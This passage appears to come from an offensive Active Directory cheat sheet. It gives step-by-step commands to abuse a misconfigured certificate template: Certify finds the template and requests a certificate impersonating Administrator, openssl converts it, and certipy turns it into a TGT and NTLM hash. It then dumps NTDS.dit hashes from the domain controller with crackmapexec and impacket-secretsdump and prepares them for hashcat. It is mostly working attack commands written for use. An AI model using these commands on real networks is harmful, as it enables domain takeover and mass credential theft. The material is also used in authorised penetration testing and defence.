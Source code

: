 You can get the compiled tools here : https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

Same thing can be done with Certify.exe :
```powershell
./Certify.exe find /vulnerable /domain:DOMAIN
```

## Misconfigured Certificate Template
If you find a certificate template with those things, the job is almost done :

-msPKI-Certificates-Name-Flag: ENROLLEE_SUPPLIES_SUBJECT : it means that the user, who is requesting a new certificate based on this certificate template, can request the certificate for another user (like Domain admins)

-PkiExtendedKeyUsage: Client Authentication : it means that the certificate that will be generated based on this certificate template can be used to authenticate to computers in Active Directory

-Enrollment Rights: NT Authority\Authenticated Users or Domains users : it means that any authenticated user in the Active Directory is allowed to request new certificates to be generated based on this certificate template.

So, you can firstly ask a certificate for Administrator, using tools like Certify.exe :
```powershell
./Certify.exe request /ca:FQDN\CA-NAME /domain:DOMAIN /template:VULNERABLE-TEMPLATE-NAME /altname:ACCOUNT-TO-IMPERSONATE
```
This will generate a .pem certificate. To use it and ask a TGT, you have to convert it to .pfx format, using openssl :
```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
Then, use certipy to ask a TGT and get the account NTLM hash :
```bash
certipy auth -pfx cert.pfx -dc-ip DC-IP -u ACCOUNT-TO-IMPERSONATE -domain DOMAIN
```
You then get the NTLM Hash. Enjoy ;)

## NTDS Exfiltration
### Remote extraction using CrackmapExec or Impacket
Once you get domain admin, dump NTDS.dit to get all the hashes from the Active Directory :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN' -u 'USERNAME' -p 'PASSWORD' --ntds
```
Use with -H option to use NTLM hash :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN' -u 'USERNAME' -H 'NTLM_HASH' --ntds
```
You can also use Impacket to extract NTDS from the DC :
```bash
impacket-secretsdump domain.local/username@FQDN -k -no-pass
```
Then, extract all the hashes to put them on hashcat.
```bash
cat ntds.dit | cut -d : -f 4 |sort|uniq > hashes.txt
```
